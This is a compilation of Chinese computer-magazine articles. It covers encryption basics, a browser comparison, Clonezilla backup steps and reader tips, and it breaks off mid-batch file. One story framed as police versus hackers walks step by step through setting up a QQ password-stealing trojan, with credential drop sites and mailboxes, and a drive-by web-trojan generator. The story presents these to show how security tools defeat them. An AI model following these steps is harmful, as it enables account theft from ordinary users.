在加解密过程中，还有一个重要的要素，我们称为加解密的“钥匙”，它也是一串黑白小球组合的队列，可以设想这样一种加密变换：“钥匙”中第1个小球如果和要加密的原始信息中第1个小球颜色相同，则加密后第1个小球为白色，否则为黑色（过程示意图见图1），后面各对应位置的小球依次类推进行替换。这样即使知道了不同颜色小球的替换规则，如果没有作为“钥匙”的那串小球，也无法将小球的颜色正确换回来。例如著名的DES (Data Encryption Standard)数据加密和AES (The Advanced Encryption Standard) 高级加密也是基于这样的原理。

### 排列规则的变迁

DES数据加密标准是迄今为止应用最广泛的一种密码算法，“DES加解密器”及一些早期的加密软件大多采用DES加密算法。它的加密过程如下（将每“位”的信息理解成一个小球，解密是该过程的逆过程）：
第一步：先将给定的要加密的信息，按每64个小球一组进行分组，再将这64个小球按某种给定的规则打乱顺序（如将第1个小球换成第58个小球，将第2个小球换成第50个小球，依次类推）。
第二步：将打乱顺序后的64个小球分成前后两队，每队32个小球，再将“钥匙”小球（56个）也打乱顺序，然后每28个一组放入红色、蓝色两个盒子里。
第三步：反复16次进行如下处理：将“后队”的32个小球，按照某种规则扩展成48个小球（如将某些位置上的小球一个变成两个）扩展的过程中，再次改变小球的排列次序。
第四步：从放“钥匙”的红、蓝两个盒子里按某种规则分别拿出24个小球（共48个小球），形成新的“子钥匙”，将“子钥匙”和上步中扩展的48个小球按如下规则处理：“子钥匙”中第1个小球如果和扩展队列中第1个小球颜色相同，则结果队列中第1个小球为白色，否则为黑色，后面各对应位置的小球依次类推进行替换。
第五步：将结果队列中48个小球再进行两次变换，最终得到变换后32个小球的队列，再将变换后的32个小球和上一轮循环的“前队”中的32个小球再进行一次替换，然后“前队”变“后队”，“后队”变“前队”，进行下一轮循环。最后将16次反复后得到的前后两队小球合并再进行一次顺序重排，得到密文。
随着对称密码的发展，DES数据加密标准算法由于密钥长度较小（56位），已经不适应当今分布式开放网络对数据加密安全性的要求，2000年NIST（美国国家标准和技术协会）将Rijndael算法作为AES的标准算法（如图2所示，AES算法示意图）。这种算法广泛地被“TrueCrypt”、“文件密码箱”、“AES文件加密器”等软件采用，另外一些远程控制软件，如“黑洞”等也采用了AES加密算法。它的加密过程就变了一个样子（以128位密钥为例，将每“位”的信息理解成一个小球过程如图1所示）：
当然还存在着其他算法，诸如：Blowfish、MARS、RC6、Twofish、Serpen等都是非常优秀的算法，这些算法本质上都是对要加密的信息（黑白两色小球组成的队列）按规则进行移位（重排小球的顺序）和替换（用别的颜色代替当前颜色小球），区别在于移位和替换的规则、顺序、机制有很大的不同，在密钥的运算和使用上也有很大不同，这些不同将对加密安全性、性能、实现的难易程度造成不同的影响，而安全性、性能和实现难易程度也是评价算法好坏的重要方面。

### 活学也活用 众机制下的加密软件

根据加密机制和原理的不同，小王将目前流行的加密软件分为三类：
1. **以隐藏代替加密**
这类软件在加密软件中占的比例较多，如各类的“文件夹加密”、“闪电加密”等，该类软件不是对文件进行真正加密，而是利用一些系统的特征和技巧，对文件夹进行隐藏，使其无法通过常规的方式被访问，严格地讲，该类软件不属于加密软件，称为文件夹“隐藏保密”软件更准确。

2. **加密算法公开的加密**
该类软件通常隐藏密钥，公开加密算法，目前绝大多数加密软件都属于该类型，就像柯克霍夫假设那样，对于破解者来讲，掌握了加密算法及实现细节，对于破解是一件有利的事情，正因为此，加密算法的先进性对于选择该类软件来讲至关重要，根据小王的经验，早期开发的一些加密软件大多采用DES等传统加密算法，而像TrueCrypt之类的加密软件，则支持AES、Twofish、Serpen等新一代加密算法。

3. **密钥和加密算法均不公开的加密**
如果既隐藏密钥，又能隐藏采用的加密算法，这无疑会增加破解难度，提供更高的安全保障，有些软件通过技术手段实现了这一点，该类软件，“文件密码箱”）往往通过创建一个加密包文件，加密包类似压缩包，内部以特定结构加密存储其他文件和文件夹，且这些文件的加密算法通常从备选的几种算法中随机抽取，这样对于破解者来讲，密钥、加密包文件结构，里面保存的每个文件采用的加密算法均是未知的，无疑比破解（算法公开的）单一加密文件困难的多。随着加密和破解地不断发展，综合运行多种算法和安全防护手段也成为了加密软件发展的一个新趋势。

（文/人月小子）

### 屏蔽QQ的信息

原题重现：根据关键词屏蔽QQ信息
这道题使用QQkav (下载地址: http://www. jsing. net/qqkav/ )就可以解决。打开QQkav，单击“屏蔽清理”选项卡，在“屏蔽功能”列表中默认已经有很多相关的屏蔽词语，我们也可以自己添加，例如添加“汇款”一词，以后所有与“汇款”相关的信息，都会被屏蔽掉。此外，它还能对闪盘病毒进行屏蔽，以及清理系统垃圾文件。
小编点评：开始以为很难的一道题，居然被这么轻易的解决掉了，看来挑战的难度不够大嘛！

## 来自IT的警匪片 账号盗窃案的追捕

隔着办公室的玻璃窗，可以看到网监大队监控室里忙碌的干警们。近来，网络中出现大量盗窃用户账户的案件，这引起了省厅的高度重视，委派从事了多年反黑、反病毒工作的老刀现场坐镇指挥。现在，他正在召集大家部署一场反盗窃行动。同样，XX大厦的密室里，几位黑客也在盘算下一步该怎么下手，一场“警匪”大战马上打响。

## 揭开绝密档案 盗号陷阱全揭穿

老刀坐镇自然不会打无准备之仗，他带来了技术专家对近期盗号案件的分析结果，打开绝密档案的光盘，通过大屏幕给大家展示下一步的对手，几位盗窃账号的头号大盗被一一分析。

## 大盗一号：金狐QQ大盗

老刀：盗窃QQ账号和密码是网民接触最多的案例，现在盗窃的技术普及率最高，网上有很多盗QQ号码的软件，金狐QQ大盗2008就是其中最典型的一款，下面来看它的盗号伎俩。

+ 第一步：下载并配置金狐QQ大盗。在空间收信中输入网站地址，例如本例中的http://www.********.net/qq.asp，其中qq.asp是“金狐QQ大盗2008”软件提供的，将其上传到支持运行ASP的网站空间即可，选中“空间收信”，则可以通过网站来收取盗取的QQ号码和用户密码。在邮件收信中，需要设置收信信箱、发信信箱、发信账号、发信密码和邮箱SMTP。

+ 第二步：测试程序正确配置与否。在程序主界面中单击“发信测试”，系统会自动弹出“网站发信完毕”的提示，然后就可以查看网站能否生成测试文件以及收信邮箱能否接收到测试邮件。登录收信邮箱，如果配置无误，则可以直接看到测试邮件，打开后可以看到邮件标题为“阿童木QQ终结者”，邮件内容为“测试成功”，这表明收信邮件没有问题，能够正常接收盗取的QQ号码和密码。现在直接在IE中打开网站地址http://www.********.net/qq.asp，在网页中显示为jhQQ表明程序正常运行，可以实现收信功能。

+ 第三步：生成QQ盗号密码。在金狐QQ大盗2008程序主界面中单击“生成木马”，程序会提示让用户选择木马文件的保存路径，选择路径完毕即可生成QQ盗号木马。将金狐QQ大盗2008所生成的QQ木马上传到肉鸡上，如果肉鸡上有QQ，则双击执行该木马程序，或者通过后台开启的shell来执行，该程序执行完毕后无任何提示。

+ 第四步：收获QQ账号和密码。直接到收信网站目录下打开qq2008jh.txt，即可查看用户QQ号码和密码，如果通过收信邮箱，则可以直接登录收信邮箱进行查看。

## 大盗二号：冷枫网马

老刀：相比丢失QQ账号的损失，游戏账号和网银账户的丢失给大众带来的危害更大，下面这个就是此类案件的代表。冷枫网马，使用它相对简单一些，但危害更大，主要是网页挂马，让人防不胜防，下面来展示它的盗号过程。

+ 第一步：运行“冷枫网马综合版生成器”，系统出来一个登录窗口，必须具有密码和用户名才能使用。按照提示进行注册，注册成功后，使用注册的用户名和密码登录“冷枫网马综合版生成器”（见图3），在下载地址中输入QQ木马或者其他木马的下载地址，在本例中输入http://www.#####.com/test.exe，然后根据漏洞类别选择生成网页木马。

老刀：现在很多软件都是通过VIP来收费，免费用户仅能使用部分功能，当选择后面的一些漏洞进行生成时，则给予提示并拒绝生成网页木马。

+ 第二步：在输入下载地址和选择相应的漏洞后，可以直接生成网页木马文件，这些网页木马文件可以是JS脚本，可以是图片等文件，挂马的方式有很多，将网页木马文件和盗QQ号的木马放在指定的网站地址，当用户访问时，如果系统相应的补丁未打上，则QQ等账号很容易被盗取。

老刀——给大家展示了“大盗”们的犯罪手段，兵来将挡水来土掩，大家开始研究针对这些犯罪手段的防护措施，会议室一片寂静。

## 盗窃 VS 保护·真刀实枪大战

在XX大厦的密室里，X集团也在开会，老大黑链子在给大家分析对手密码保护软件的原理。

现在咱们要盗号，最麻烦的就是账号保护工具了，拿360保险箱来说吧，它靠的是主动侦测，拦截入侵行为，对键盘的缓冲区进行监视，防止键盘钩子等各种木马程序窃取键盘输入记录，提取账号。游戏厂商推出的金山金刚或者盛大密保所用的动态密码原理一样，就是不通过鼠标键盘修改密码，使木马无法记录，并且密码经常变化，然后达到保护的作用。

在明确了要防范的监控方法后，决定于下午3点钟对位于某商业街的电脑中心进行账号盗窃，一场决斗由此展开。

X集团配置了金狐QQ大盗和冷枫网马，分别在某小说网站和某门户网站进行挂马，团伙工作人员在收信邮箱和收信网站进行实时查看，等待QQ账号和用户名自动上门。

网警已经到位，首先在本地计算机上安装360安全保险箱和金山密保。然后访问带有网页木马的网页，通过监控发现网站中的winrar.css存在问题，将该文件下载到本地直接打开，在最底部可以看到文件包含的木马文件路径http://www.********.net/test.exe。

测试机上未修补任何操作系统补丁，因此木马在后台已经运行，这时候登录QQ，金山密保给出了QQ异常情况，QQ登录后其进程马上关闭后又重新打开，说明QQ木马已经正常运行。

接着360保险箱也给出了安全提示：发现可疑进程atmQQ2.dll正试图注入被保护程序腾讯QQ，单击“禁止”不让该进程运行，盗号集团盗号失败。在360保险箱和金山密保报警的同时，QQ安全中心也不落后马上给出安全警告，告知用户发现盗号木马，提醒用户进行清除。

一场警匪大战终于落下帷幕，X集团的木马全部被清除，原来盗号集团也不是那么神乎其为，只要方法得到完全可以减少感染木马、丢失QQ以及其他一些游戏账号的风险。

（文/simeon）

## 关闭“好友印象”(2)

原题重现：如何关闭“好友印象”以防止好友印象骚扰

我发现了名叫“QQ好友印象管理”（下载地址：http://work.newhua.com/cfan/200920/qyxgl.rar）的软件，能在不打开QQ的情况下，批量删除好友印象。

打开软件，输入QQ号、密码登录后，就可以看到别人对你的印象了，勾选要删除的，右击后，选择“删除”即可。

小编点评：非常不错的软件，但只能是删，不能关闭，为什么这个东西还不能关闭呢？

挑战者：xyxianmu

## 听说了吗？ MSN掉线是“堵车”惹的祸

谈到海底世界，诸多的美景都会出现在脑海里，在自由自在的海底生物生活的世界里，你还能想到什么呢？海底光缆就埋在这里哦！不过，最近地球这家伙不老实，海底光缆也是故障频频，以前是杀毒软件无法升级，最近又出现了MSN无法登录的故障，海底电缆到底充当什么角色呢？掉线时谁惹得祸？

## 用 MSN 聊点自己的事

先从最近的MSN掉线说起吧，海底光缆出现故障，MSN为何就登录不了了呢？要说这个问题，我们先来看看MSN是如何工作的。

在平时，我们想和某个人聊天，双击他的名称就可以开始了。会话开始时，你的Windows Live ID凭证信息被传输到Windows Live ID验证服务器上进行验证，验证通过后信息穿过一个只准进入的防火墙连接到分发服务器。然后用户端根据实际情况，连接到本地通知服务器，保持它的有效状态，但信息本身并不会发送到通知服务器上，信息先传输到交换服务器（所有消息和文件进行交换的地方，邀请、文件传输和视频、音频聊天也是通过交换服务器进行的），信息跟着转播到一个外发防火墙并检查需要接受的用户是否仍然在线。如果用户已经下线，那么信息反弹回来并保存到交换服务器上，等到用户下次登录时再发送给用户。如果用户在线，那么信息就直接传输给他。

小提示：

事件刚刚发生时，很多网友抱怨微软MSN没有把服务器搬到中国，事后微软发言人指出2006年中国已经建立了MSN服务器，从上面的原理分析我们可以知道，虽然用户端与本地通知服务器的连接没有问题，但如果跟远程的交换服务器连接出现问题，同样会发生掉线故障。

我们再来看看光缆负责什么任务。埋在海底的光缆一般用于跨海地区的数据传输，主要是跨国的数据传输。对于我们国内用户来说，也就是当我们需要与国外的服务器进行通讯的话，具体到MSN的通讯过程，我们了解到，会话开始的验证、分发服务器与远程服务器的连接、远程服务器与交换服务器的连接都要用到光缆。

## 掉线原来是前方“堵车”

你肯定有一个疑问，如果海底光缆发生断裂，整个通讯是不是就完全断了呢？可为什么同一个办公室，有的没有受影响，有的就不能登录了呢？我们还要继续说海底光缆的作用，对于互联网来说，世界各地的连接四通八达，这就像我们平时外出，从一个地方到另一个地方，我们可以选择直达的列车，也可以选择先到某个地方，然后再绕路到达目的地。对于这次MSN掉线问题来说，莫拉克台风引起德尔FNAL/RNAL海底光缆中断，这段海底光缆是连接北亚地区的一条重要信息通道，而且该海缆的保护路由在韩国釜山附近的一段受到损害，造成我国通往北美、欧洲等方向的国际通信服务受到程度不同的影响。这个问题也就是说我们无法通过光缆与北美、欧洲进行直接通讯了，在修复之前我们的通讯也不是完全不可以，我们可以采用绕行的方式，因为全世界的光纤本来就是连接在一起的网，我们可以在先在地上传输，走传统途径，当然传输的速度会慢，于是当我们从地上绕过故障断点时，又可以转入地下光缆，进行快速传输，这些都是网络运营商可以统筹的。那如何来解释MSN的掉线问题呢？记者采访了微软MSN的技术工程师，他用一个我们熟知的例子解释了这个问题：“海底电缆故障，不是全部的国际互联网连接中断了，是部分中断。根据运营商的公开信息，电信和联通的流量各剩之前的50%，导致访问拥塞，就好像上班高峰时间，由于汽车或地铁故障，发车次数减少，同一个汽车站或地铁站很多人都拼命要挤上车，就像我们观察到的那样，有人挤上车了，有人还是留在车站。”现在你就明白了吧，原来MSN掉线，是网络通信“堵车”造成的。一句话说，是海底光缆断裂引发的网络通信拥堵，不是完全失去，所以也就有了不同账号，有的可以通讯，有的不能通讯。

## 小知识：什么是海底光缆

海底光缆（SOFC）是一种敷设于海底，主要用于洲际之间、大陆与岛屿，及岛屿与岛屿之间通信的特种光缆，信息传输靠的是里面的光纤材料，外面虽然有层层保护，但海底地形复杂，光缆很容易发生断裂，修复的时间也较长。

（文/花豹子）

## 11路豪杰争霸 网页浏览器你用谁

应众多读者的要求，CFAN研究院在一年多以后重新横评网页浏览器。如今IE8成为IE的新代名词，Opera发布10.0新版，火狐和谷歌浏览器也在加紧更新，其他浏览器也在积极备战。在Windows7即将到来之际，你的新系统上想装哪一款浏览器呢？我们精选了11款浏览器进行对比测试，你需要的答案就在其中！

## 毋庸置疑的测试平台

本次评测为同平台下对比测试，配置单如下：CPU: Intel Core T7400 @ 2.16GHz 内存: DDR2 667 2GB 主板: Intel 945GM 显卡: GeForce 7400 硬盘类型: SATA 5400 RPM。软件环境上我们使用安装了所有补丁的Windows XP pro SP3。网络环境: 10M 公司局域网。

## 客观公正的评测队伍

本次评测更加注重了参与性和互动性，先由CFan论坛网友投票选出最关心的软件，然后由《电脑爱好者》全体软件编辑和热心读者共同完成测试，保证了测试结果的公正。

## 实用为主的评测理念

秉承“实用至上”的准则，我们打破软件的枯燥功能对比，从我们需求出发，选取最能反映大家平时使用浏览器的需求的实例来做测试，并且加入了客观的标准测试，使得我们的评测更加全面。

## 我们的测试对象

- Internet Explorer 8
- 火狐 Firefox 3.5.3
- 谷歌浏览器 V2.0.172.43
- Opera 10.0
- Safari 4.0.3
- 傲游 2.5.7.1162
- 世界之窗浏览器 3.0.5.9
- 搜狗浏览器 1.4beta
- 360安全浏览器 V3.0.5.2
- TT浏览器 4.7
- GreenBrowser 5.1.0721

## 才艺展示

### IE8

支持右键翻译；带有加速器，支持保护隐私的InPrivate筛选功能，独特的开发者工具，方便网页设计者使用。

### Firefox

插件丰富，很多功能都可以靠插件来解决。并推出了火狐中国版，加入了适合中国用户使用的插件。靠着拥有第二大用户群，可以获得更多的网站支持，给不喜欢IE的人带去一个很好的选择。

### 谷歌浏览器

轻巧、反应迅速的浏览器软件，带有“隐身窗口”功能，风格特色明显，功能上尚需增强。

### Opera

新版表现出来的特色，可以说是浏览器里面的一枝独秀，很多特色功能都属于自己的创新。标签可以设置位置，还有缩略图功能可以预览到标签页的内容，遇到不懂的东西可以在右键菜单中用“字典或百科书”来查询，支持语音阅读和语音控制，可以一键查看页面所有链接，支持开发者工具。支持宽度适配，带有“笔记”功能。

### Safari

独特的网页多画面启动，中规中矩的网页浏览器工具，支持邮件的联系，可以将内容以邮件方式发送，支持私密浏览。

### 傲游

功能的丰富可以说集合了目前所有浏览器的常见功能，开创了分屏浏览模式，可以调用画图、注册表等程序，下载和收集功能丰富，支持视频和图片的嗅探、下载，菜单栏自动隐藏、保存浏览进程、一键关闭空白和错误页面等功能令人耳目一新。

### 世界之窗

功能切换更加迅速、轻巧，支持浏览器优化，可以管理浏览器是否采用多线程模式，带有进程管理器，可以切换到IE8模式。

### 360安全浏览器

不仅仅是对世界之窗的优化，本身发展了不少功能，独创的无痕浏览和隔离浏览模式增强了网页浏览的安全性。

### TT

与QQ账号结合，但没有实际的应用功能，菜单栏有天气预报和拍拍功能。带有一个退出时同步到IE收藏夹的功能，可以将打开的网页通过“保存全部网址”来进行方便收藏。在独立适配窗口上比搜狗更加人性化，但网页标签太小，有点美中不足。

### 搜狗

以独立视频窗口和教育网加速、隐私保护功能为主打特色，地址栏巧妙融合了地址识别和自动搜索。

### GreenBrowser

独特的页面管理器功能，能方便选择下次打开时的页面，带有网址缩写功能，配有独特的“悬浮监视窗”，方便资料收集。

## 实例考验

### 实例一 标准测试

网页浏览器的角色首先是超文本的翻译，那么这个“翻译”能力就是他们的基础了。首先，是否符合网页标准是翻译基础中的基础了。于是我们对目前流行的11款网页浏览器进行了Acid3网页标准测试（Acid3由网页标准计划小组设计，是一份网页浏览器及设计软件之标准相容性的测试网页，测试地址：http://acid3.acidtests.org/），而浏览器的性能方面，我们选用了可以对浏览器进行综合性考评的Peacekeeper测试（Futuremark公司推出的Peacekeeper测试主要考察浏览器渲染性能，包括并从HTML 5.0到CSS的各种网页标准，通过一系列算法来评估浏览器的JavaScript性能和DOM性能，测试地址：http://www.futuremark.com/peacekeeper）。结果对比如下，其中Peacekeeper测试的具体分数与电脑硬件有关，但并不影响我们在同一环境下的对比结果。从测试结果来看，IE核心的浏览器得分不高，看来微软不想屈从于别人的标准，而其他浏览器都能通过Acid3网页标准测试，在对性能的客观检测中Safari得到最高分。

### 实例二 网页浏览
#### 第一关 打开速度

平时，用网页浏览器的目的首先是浏览网页，那么网页浏览谁最强呢？首先看打开速度，分别用浏览器打开搜狐（http://www.sohu.com）、爱好者网（http://www.cfan.com.cn）、猫扑（http://www.mop.com）主页，对比浏览器将内容（含广告等附加内容）全部加载完所用的时间长短（多次记录取平均值），并按照打开三个网页的平均时间进行排序，获得一个名次。

另一方面为了模拟平时的操作需求，我们选择了某期杂志中用到的10个网页作为测试样本，分别用网页浏览器一次性打开这10个网页，记录其时间，并获得一个名次，这个名次与上面的名次相加，得到的和为最终的名次。综合结果，我们就得到了打开单个网页和多个网页最快的浏览器，要数Safari、GreenBrowser、世界之窗和360安全浏览器并列第二。

| 软件 | 搜狐网(秒) | 爱好者网(秒) | 猫扑(秒) | 所用平均时间 | 名次 |
| :--- | :---: | :---: | :---: | :---: | :---: |
| Safari | 5.8 | 4.2 | 5 | 5 | 1 |
| 360安全浏览器 | 7 | 7.1 | 2.4 | 5.5 | 2 |
| TT | 7.4 | 7.2 | 2.6 | 5.7 | 3 |
| 世界之窗 | 8.1 | 7.2 | 2.6 | 6 | 4 |
| 搜狗 | 6.2 | 7.1 | 4.7 | 6 | 5 |
| IE8 | 7.6 | 6.5 | 4.1 | 6.1 | 6 |
| GreenBrowser | 7.2 | 7.8 | 6.3 | 7.1 | 7 |
| 谷歌浏览器 | 6.9 | 10 | 8 | 8.3 | 8 |
| Opera | 9.3 | 7.7 | 7.8 | 8.3 | 9 |
| 傲游 | 11 | 10 | 5.8 | 8.9 | 10 |
| Firefox | 10.5 | 10.2 | 8.4 | 9.7 | 11 |

| 软件 | 所用总时间 | 名次 | 总名次 |
| :--- | :---: | :---: | :---: |
| Safari | 44 | 3 | 4 |
| GreenBrowser | 43 | 2 | 9 |
| 世界之窗 | 45 | 5 | 9 |
| 360安全浏览器 | 53 | 7 | 9 |
| Opera | 38 | 1 | 10 |
| IE8 | 48 | 6 | 12 |
| 搜狗 | 55 | 9 | 14 |
| TT | 56 | 11 | 14 |
| Firefox | 44 | 4 | 15 |
| 谷歌浏览器 | 53 | 8 | 16 |
| 傲游 | 55 | 10 | 20 |

### 第二关 资源占用

评价软件，我们不可不谈的就是资源占用了，我们记录了单独打开搜狐网时的资源占用情况，我们选取各自打开网页过程中资源占用的最高值加以对比。同时我们记录了上一步测试中，同时打开10个网页时的软件内存占用，最后进行综合对比（内存均为物理内存与虚拟内存之和，单位均为MB）。通过分析，我们发现，打开网页最快的Safari在资源占用方面却是最差的，而TT在资源占用上脱颖而出，IE8的资源占用排名第二。

| 软件 | 打开搜狐网时的CPU占用 | 打开搜狐网时的CPU名次 | 打开搜狐网时的内存占用 | 打开搜狐网时的内存名次 | 打开10个网页时的内存占用 | 打开10个网页时的内存名次 | 名次之和 |
| :--- | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| TT | 20% | 1 | 108 | 3 | 215 | 5 | 9 |
| IE8 | 22% | 3 | 128 | 6 | 152 | 1 | 10 |
| GreenBrowser | 36% | 7 | 103 | 1 | 211 | 4 | 12 |
| 360安全浏览器 | 23% | 4 | 104 | 2 | 219 | 6 | 12 |
| 世界之窗 | 21% | 2 | 126 | 4 | 259 | 9 | 15 |
| Firefox | 39% | 9 | 135 | 8 | 197 | 2 | 19 |
| 搜狗 | 31% | 6 | 135 | 7 | 229 | 7 | 20 |
| 傲游 | 31% | 5 | 136 | 9 | 231 | 8 | 22 |
| Opera | 46% | 10 | 148 | 11 | 197 | 3 | 24 |
| 谷歌浏览器 | 38% | 8 | 126 | 5 | 384 | 11 | 24 |
| Safari | 46% | 11 | 144 | 10 | 262 | 10 | 31 |

### 第三关 附加功能

对比了速度和资源占用，我们发现两全其美总是理想，速度和资源占用方面浏览器往往只占一个方面，剩下的就要看大家的特色功能了。我们分别来看一下几款浏览器的主要功能对比(见下表)。功能最多的要数傲游，其次是TT。

### 实例三 视频浏览

分别用浏览器登录优酷网，观看最近流行的视频。选手表现：观看视频浏览器的差别不大，不过通过上面的功能对比我们就可以看出，支持独立视频窗口的浏览器：世界之窗、TT、搜狗自然更适合观看视频，再细致对比这三款浏览器，世界之窗和搜狗在独立出视频窗口的同时原来的网页窗口就隐藏了，而TT仍然会保留原来的网页窗口，方便于浏览。

### 实例四 网页游戏

分别用浏览器登录开心网，玩一下“争车位”的游戏。选手表现：在地址栏中输入kaixin001.com后回车，即可进入开心网登录界面。其中傲游、搜狗和GreenBrowser在打出kaixin的时候即有候选地址可以选了，很方便。登录后，大多运行良好，只有在谷歌浏览器和Safari下出现了无法正常显示提示框的错误。小提示：最后我们不得不着重指出的是，国内的网络购物平台都只有在IE核心的浏览器中才能正常使用，这就不得不让我们必须保留一个IE名额了。

## 研究院测试报告

通过几天的测试我们发现，很难找出一款最优秀的网页浏览器，大多是在一个或几个方面性能突出，所以本次CFan研究院不产生编辑推荐奖，但我们按照应用综合评出了几个最优秀的浏览器。综合上面的评测结果，最适合浏览网页的浏览器是Safari，综合性能最完善的浏览器是TT，功能最强大的浏览器是傲游。

| 软件 | 地址栏搜索 | 粘贴并转到 | 鼠标手势控制 | 独立视频窗口 | 用户数据网络同步 | 页面关键字搜索模式 | 支持防病毒 | 自动填表 | 支持加速 | 截图 | 迅雷支持 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| IE8 | 否 | 否 | 否 | 否 | 否 | 右键 | 否 | 否 | 是 | 否 | 是 |
| Firefox | 否 | 否 | 否 | 否 | 否 | 右键 | 否 | 否 | 否 | 否 | 是 |
| 谷歌浏览器 | 是 | 是 | 否 | 否 | 否 | 右键 | 否 | 否 | 否 | 否 | 否 |
| Opera | 是 | 是 | 是 | 否 | 是 | 右键 | 是 | 是 | 是 | 否 | 是 |
| Safari | 否 | 否 | 否 | 否 | 否 | 右键 | 否 | 是 | 否 | 否 | 否 |
| 傲游 | 是 | 是 | 是 | 否 | 是 | 拖拽 | 否 | 是 | 是 | 是 | 是 |
| 世界之窗 | 是 | 是 | 是 | 是 | 否 | 拖拽 | 否 | 是 | 否 | 否 | 是 |
| 360安全浏览器 | 是 | 是 | 是 | 否 | 否 | 拖拽 | 是 | 否 | 否 | 否 | 是 |
| TT | 是 | 否 | 是 | 是 | 否 | 拖拽 | 是 | 是 | 是 | 是 | 是 |
| 搜狗 | 是 | 是 | 是 | 是 | 是 | 拖拽 | 否 | 否 | 是 | 否 | 是 |
| GreenBrowser | 是 | 是 | 是 | 否 | 否 | 不支持 | 否 | 是 | 否 | 否 | 是 |

## 如果你需要完全系统备份

原题重现：寻找能够备份多种系统的备份方法。Clonezilla再生龙是来自我们祖国宝岛台湾的一款类似Ghost一样的硬盘备份还原工具。但是相对于Ghost，Clonezilla不仅免费开源，而且支持更多的文件系统，包括Windows的NTFS和FAT，Linux的Ext2, Ext3, Ext4, Reiserfs, XFS, JFS, 以及Mac OS的HFS，也就是说Clonezilla可以备份、恢复运行在个人计算机上的大部分操作系统。Clonezilla目前有两个版本Clonezilla SE和Clonezilla Live，其中SE版适用于批量网络备份与还原的服务器版，而Live版则是适用于普通的单机备份还原。所以下面介绍Clonezilla Live的使用方法。

### 制作 Clonezilla Live 启动介质

#### 方法一：光盘启动

首先打开http://clonezilla.org/download/sourceforge/stable/iso-zip-files.php，然后展开“1.2.2-26”，出现clonezilla-live-1.2.2-26.iso和clonezilla-live-1.2.2-26.zip两个文件，下载其中的ISO，然后刻录为光盘即可。

#### 方法二：闪盘启动

首先用HP闪盘格式化工具（地址：http://work.newhua.com/cfan/200919/HPUSBFw.rar）格式化你的闪盘，使用FAT或者FAT32文件系统。然后，下载上文的提到clonezilla-live-1.2.2-26.zip文件，下载完成后将其解压到闪盘的根目录下。接着打开闪盘目录，进入utils\win32文件夹，运行makeboot.bat（注意不要在硬盘上运行该文件，否则可能造成系统无法启动），按任意键开始安装闪盘版的Clonezilla Live，完成后再次按任意键退出。

### 使用 Clonezilla Live 备份、还原系统

第一步：将闪盘或光盘插入电脑，重启。若不能正常启动Clonezilla Live请先调整主板启动顺序。第二步：Clonezilla启动后，会要求你进行一些设置，包括分辨率、语言、键盘、界面、备份模式、备份设备。除语言外全部使用默认设置。这些配置好后，Clonezilla Live会首先询问使用哪个分区读取和存储备份镜像，这里不要选择需要备份的分区，否则无法进行备份。如图，这里以虚拟机上的Ubuntu为例，将第一分区备份到第二分区，则选择第二分区。接着选择放置Clonezilla镜像的文件夹，确定后Clonezilla Live会给出当前分区的使用报告，按回车键确认。第三步：设置完成后，现在可以进行备份还原操作了。首先选择“初学模式”，接着选择你要进行的操作，这里要备份系统所以选择“存储本机分区为镜像文件”，然后命名镜像文件，回车后出现分区选择界面，结合屏幕提示选择要备份的系统分区，这里因为笔者的虚拟机上只有两个分区，所以无需选择。

经两次确认后，Clonezilla Live开始备份，屏幕上会显示备份进度和速度等各种信息。待备份完成后选择关机或者重启。如果要还原系统，只需要将图四中的“存储本机分区为镜像文件”改为“还原镜像文件到本机分区”，然后选择Clonezilla镜像所在文件夹，Clonezilla Live会自动列出该文件下所有镜像，选中其中一个，然后再选择要还原的分区，提示确认后即开始还原。经笔者在实机上试用，Clonezilla Live备份一个已用空间在25GB左右的Vista系统分区所用时间不到29分钟，相较于Ghost的五十多分钟，应该可以说是相当快的了。但是目前Clonezilla Live还没有那些基于Ghost开发的系统备份还原工具方便和易用，希望以后在这些方面Clonezilla Live能有所改进。

### 小编有话说

大家注意到我的提示没有？15期中的《一本PC，两手准备，摘下苹果满天“行”》就提到了Clonezilla，这款软件非常的强大，几乎所有的系统都可以备份。至于为什么要扣掉10积分赏金，就是由于Clonezilla目前不具备操作系统下的工作界面，还不够方便。除了小康提供的Clonezilla方法外，还有两位挑战者也挑战了本题，不过显然他们提供的是“伪技巧”：挑战者gkrm1，提供的方法是使用Acronis True Image，很遗憾这款软件完全不能访问到Linux或是Mac OS的分区，同样的问题也出现了挑战者Zizhou Su上，他使用的方法是修改“Vista一键还原”，但整个方法里面也出现了前面一样的致命错误——Windows是无法看到需要备份的分区的。

> （文/漂流在外）

> 挑战者：小康

## 跨越权限，这事可能吗

原题重现：统计出自己的发帖量。这道题我提供三种解决办法。
1. 看积分。先选好要发帖的论坛板块，在“快速发新话题”的右侧找到“查看积分策略说明”。单击进入后，找到“本版发新主题”的加分值，记录下来。接着进入你的个人信息查看，把上一步记录的加分值名称在信息中的现有分值也记录下来。现在你就可以开始无限制地发帖了。发完帖后，再次进入个人信息查看，记下现有的分值，按照以下公式计算即可得出你今天发的帖子数了：(现有积分值-原有积分值)÷发帖加分值=发帖数。
2. 看搜索。上面的方法有一个弊端，就是只能看到你记下原分值后的发帖数，而且如果你在发帖期间领取了红包之类的东西，统计就不准确了。我们还可以在个人信息查看中点击“搜索帖子”，在弹出的窗口中找到你发帖的日期，数一下一共多少个帖子（可能有点累），就知道你今天一共发了多少帖子了。
3. 通过论坛的“我的话题”查看。这个方法和第二种有异曲同工之处，只不过第二种方法只能看到发帖数而已。本来想靠BLOG来查看的，但发现BLOG查看还不如论坛自带的“我的话题”，在论坛的“我的话题”，“我的回复”中把你今日发的帖子数一下就行了。

如果觉得一个一个数太麻烦，可以先到论坛的某个热门板块看一下一页能显示多少帖子，“我的话题”，“我的回复”中每页显示的帖子数量和板块中是一样的，用简单的乘除及加减法就可以算出来了。

## 原题重现：统计出自己的发帖量

本以为“发一帖，在纸上做一个记号”一说是小编夸张的说法，没想到还真有人出这种馊主意啊。发两种方法出来供大家参考。
1. 法宝：再现“IE临时文件夹”。登录账号并进入你想回复的帖子，点击IE中的“选项→Internet属性”，删除文件（不建议删除Cookies），然后回帖，点击再进入“Internet属性”→“设置→查看文件”，大家会看到有一个以viewthread开头的HTM文件。好了，把它复制到桌面上打开，拖动滚动条，在后面发现了什么，只要你IE临时文件夹分配的空间合理，我们可以等最后一起数你回复了多少帖子。
2. 手动计数法。现炒现卖一招：打开“记事本”输入如下内容并保存为BAT文件。

```
@echo off
